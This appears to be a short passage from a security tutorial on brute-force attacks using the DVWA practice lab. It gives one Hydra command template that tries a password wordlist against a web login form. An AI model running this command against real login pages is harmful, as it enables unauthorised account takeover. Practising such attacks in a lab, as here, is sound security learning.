 ## 1. Brute Force Attack

![](https://pimages.toolbox.com/wp-content/uploads/2022/05/10131245/Critical-Steps-of-a-Brute-Force-Attack.png)
>We will use DVWA Labs To Learn Bruteforce Attacks
>We will use hydra and custom bash script to perform bruteforce attack
**Hydra**
```
hydra target.com -V -l username -P "worldlists.txt" http-get-form "/path:formusername=^USER^&formpassword=^PASS^&FormLogin=Login:F=Fail Message:H=Cookie: Cookies"
```
